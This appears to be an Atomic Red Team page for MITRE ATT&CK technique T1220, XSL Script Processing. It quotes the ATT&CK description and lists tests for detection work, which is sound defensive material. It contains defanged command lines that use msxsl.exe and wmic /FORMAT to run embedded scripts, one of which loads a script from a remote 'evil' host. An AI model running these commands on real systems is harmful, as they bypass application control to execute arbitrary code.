 # T1220 - XSL Script Processing

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1220)

<blockquote>Adversaries may bypass application control and obscure execution of code by embedding scripts inside XSL files. Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. (Citation: Microsoft XSLT Script Mar 2017)

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application control. Similar to [Trusted Developer Utilities Proxy Execution](https://attack.mitre.org/techniques/T1127), the Microsoft common line transformation utility binary (msxsl.exe) (Citation: Microsoft msxsl.exe) can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. (Citation: Penetration Testing Lab MSXSL July 2017) Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. (Citation: Reaqta MSXSL Spearphishing MAR 2018) Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: Penetration Testing Lab MSXSL July 2017)(Citation: XSL Bypass Mar 2019)

- <code>msxsl.exe customers[.]xml script[.]xsl</code>
- <code>msxsl.exe script[.]xsl script[.]xsl</code>
- <code>msxsl.exe script[.]jpeg script[.]jpeg</code>

Another variation of this technique, dubbed “Squiblytwo”, involves using [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) to invoke JScript or VBScript within an XSL file.(Citation: LOLBAS Wmic) This technique can also execute local/remote scripts and, similar to its [Regsvr32](https://attack.mitre.org/techniques/T1218/010)/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) provided they utilize the /FORMAT switch.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: XSL Bypass Mar 2019)(Citation: LOLBAS Wmic)

- Local File: <code>wmic process list /FORMAT:evil[.]xsl</code>
- Remote File: <code>wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”</code></blockquote>

## Atomic Tests

- [Atomic Test #1 - MSXSL Bypass using local files](#atomic-test-1---msxsl-bypass-using-local-files)

- [Atomic Test #2 - MSXSL Bypass using remote files](#atomic-test-2---msxsl-bypass-using-remote-files)

- [Atomic Test #3 - WMIC bypass using local XSL file](#atomic-test-3---wmic-bypass-using-local-xsl-file)
